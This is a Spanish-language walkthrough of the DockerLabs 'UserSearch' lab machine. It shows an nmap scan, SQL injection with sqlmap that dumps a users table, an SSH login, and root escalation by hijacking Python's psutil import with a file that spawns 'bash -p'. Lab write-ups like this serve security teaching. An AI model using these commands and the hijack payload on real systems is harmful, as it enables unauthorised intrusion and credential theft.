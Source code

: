 Máquina "UserSearch" de [DockerLabs](https://dockerlabs.es)

Autor: [kvzlx](https://www.youtube.com/@kvzlx)

Dificultad: Medio

![Usersearch](/maquina-usersearch/img/DockerLabs.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- -Pn -n --open --min-rate 5000 -vvv 172.18.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Fri Dec 13 22:25:17 2024 as: nmap -sSVC -p- -Pn -n --open --min-rate 5000 -vvv -oN escaneo.txt 172.18.0.2
Nmap scan report for 172.18.0.2
Host is up, received arp-response (0.000016s latency).
Scanned at 2024-12-13 22:25:18 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 ea:6b:ef:51:9c:00:c4:d4:24:17:90:be:6d:0a:26:79 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP8i149J/z+cyzaGJoDVXl5AHyo4BO3C5DzkkWxzNaB77Kpz4si3PNs2uorTw1yztfmGmCA8NIWeW+TAybx57ok=
|   256 62:97:b5:91:0c:b0:8f:06:bd:ad:e3:d5:14:3d:f1:74 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINpY2NxmXtsHt71QdxZpHfmnjsqGymscWq6lf4kbIkVk
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: User Search
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 13 22:25:27 2024 -- 1 IP address (1 host up) scanned in 9.11 seconds
```

Vemos dos puertos abiertos:

• `Puerto 22: OpenSSH 9.2p1`

• `Puerto 80: Apache httpd 2.4.59`

y nos enfrentamos a una maquina linux debian.

Si vamos a la página en el puerto 80, veremos un formulario que nos permite buscar usuarios, esto nos da la idea de que puede haber una base de datos mysql por detras. Si tiramos directamente `sqlmap` para buscar una inyeccion sql, veremos que efectivamente es vulnerable, por lo que procedemos a listar la base de datos:

```css
sqlmap -u "http://172.18.0.2" --level 5 --risk 3 --batch --forms --dbs
```

y vemos que hay dos:

`information_schema`

`testdb`

A nosotros nos interesa la base de datos "testdb", por lo que continuaremos listando las tablas:

```css
sqlmap -u "http://172.18.0.2" --level 5 --risk 3 --batch --forms -D testdb --tables
```

una vez ejecutado, veremos que hay una tabla llamada "users", por lo que veremos todo lo que contiene de la siguiente manera:

```css
sqlmap -u "http://172.18.0.2" --level 5 --risk 3 --batch --forms -D testdb -T users --dump
```

```css
+----+---------------+----------+
| id | password      | username |
+----+---------------+----------+
| 1  | ************* | admin    |
| 2  | ************* | user1    |
| 3  | ************* | kvzlx    |
+----+---------------+----------+
```

# Intrusión

Continuamos probando las credenciales obtenidas en el ssh, y vemos que las correctas son las del usuario "kvzlx", por lo que nos conectamos (`ssh kvzlx@172.18.0.2`).

# Escalada de privilegios

### Kvzlx

Estando dentro, listamos los archivos y vemos que hay un código de python y si ejecutamos `sudo -l` veremos que lo podemos ejecutar como root. Si lo leemos veremos lo siguiente:

```css
import psutil


def print_virtual_memory():
    vm = psutil.virtual_memory()
    print(f"Total: {vm.total} Available: {vm.available}")


if __name__ == "__main__":
    print_virtual_memory()
```

Como vemos importa la libreria "psutil", por lo que podemos intuir que trata de un `python library hijacking`. Para realizarlo, debemos crear un archivo en el mismo directorio llamado "psutil.py", y dentro poner el siguiente contenido:

```css
import os

os.system("bash -p")
```

Luego ejecutamos el script de python normalmente pero nos dará una shell como root al momento.

Otra manera es borrar el script "system_info.py", ya que aun que no nos pertenezca, se encuentra en nuestro home, por lo que podemos borrarlo igual y crear otro.

## Root

![Root](/maquina-usersearch/img/root.png)